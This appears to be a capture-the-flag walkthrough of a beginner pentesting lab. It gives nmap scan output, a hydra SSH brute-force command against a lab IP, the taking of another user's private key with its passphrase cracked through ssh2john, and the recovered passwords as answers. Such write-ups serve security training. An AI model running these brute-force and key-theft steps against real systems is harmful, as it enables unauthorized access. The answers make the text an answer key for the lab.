 Task 1  Web App Testing and Privilege Escalation
-------------------------------------------------

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

1. Find the services exposed by the machine
```
PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZXasCfWSXQ9lYiKbTNkPs0T+wFym2lZy229LllhY6iDLrjm7LIkhCcrlgnJQtLxl5NPhlHNVmwhlkcPPiAHwluhMVE5xKihQj3i+Ucx2IwiFvfmCz4AKsWlR6N8IZe55Ltw0lcH9ykuKZddg81X85EVsNbMacJNjjyxAtwQmJt1F5kB1B2ixgjLLOyNWafC5g1h6XbEgB2wiSRJ5UA8rOZaF28YcDVo0MQhsKpQG/5oPmQUsIeJTUA/XkoWCjvXZqHwv8XInQLQu3VXKgv735G+CJaKzplh7FZyXju8ViDSAY8gdhqpJommYxzqu9s1M31cmFg2fT5V1z9s4DP/vd
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP0SXJpgwPf/e9AT9ri/dlAnkob4PqzMjl2Q9lZIVIXeEFJ9sfRkC+tgSjk9PwK0DUO3JU27pmtAkDL4Mtv9eZw=
|   256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAzy8ZacWXbPGeqtuiJCnPP0LYZYZlMj5D1ZY9ldg1wU
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

2. What is the name of the hidden directory on the web server(enter name without /)?

--> `development`

3. User brute-forcing to find the username & password

USed enum4linux
```
jan
kay
```
--> jan

4. What is the password?

```
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt -I ssh://10.10.146.14

[22][ssh] host: 10.10.146.14   login: jan   password: armando
 
```
--> armando

5. What service do you use to access the server(answer in abbreviation in all caps)?

--> SSH

6. Enumerate the machine to find any vectors for privilege escalation

--> used LinEnum.sh

Found that jan user can interact with kay user home directory, we downloaded .ssh/id_rsa of john to login but, we needed a passphrase to use it.

We used ssh2john to crack the hash: pass => `beeswax`

7. What is the name of the other user you found(all lower case)?

--> kay

8. If you have found another user, what can you do with this information?

--> Find out the password of the user

9. What is the final password you obtain?

--> heresareallystrongpasswordthatfollowsthepasswordpolicy$$


